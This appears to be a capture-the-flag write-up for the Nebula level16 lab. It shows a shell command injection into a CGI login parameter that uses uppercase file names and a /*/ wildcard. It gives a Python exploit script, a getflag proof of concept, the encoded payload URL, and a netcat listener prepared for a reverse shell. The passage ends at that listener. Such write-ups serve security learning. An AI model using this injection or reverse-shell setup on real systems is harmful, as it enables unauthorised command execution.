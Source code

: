 After some minutes of pure confusion, I tried to craft paths with bash wildcards. So I tried to execute a 
program in temp without using lower space chars. 

First I created a simple test script:

	:::bash
	level16@nebula:~$ cat /tmp/SLEEPY.SH 
	#!/bin/bash
	sleep 5

Then I created a short Python program to request the cgi script:

	:::python
	#!/usr/bin/python

	import urllib2
	from urllib import quote

	host = '192.168.56.101:1616'
	uri = 'http://{}/index.cgi?username={}&password={}'.format(host, quote('$(/*/SLEEPY.sh)', safe=''), '')

	request = urllib2.urlopen(uri)
	# should take at least 5 seconds if the code is executed
	print request.read()

It worked! The payload `/*/OURCODE.SH` will execute the program in the `/tmp/` directory. Now I created a simple
POC script:

	:::bash
	# create POC script 
	echo -e '#!/bin/bash\ngetflag > /tmp/gotflag' > /tmp/FLAG.SH
	chmod +x /tmp/FLAG.SH

And requested the url with the payload:

> http://192.168.56.101:1616/index.cgi?username=%24%28%2F%2A%2FFLAG.SH%29&password=

It worked!

	:::bash
	level16@nebula:~$ cat /tmp/gotflag 
	You have successfully executed getflag on a target account

To get a shell, start netcat on your host computer and create a reverse shell in the 
`/tmp` dir in the nebula host:

	:::
	# on host pc
	nc -l 192.168.56.1 8888
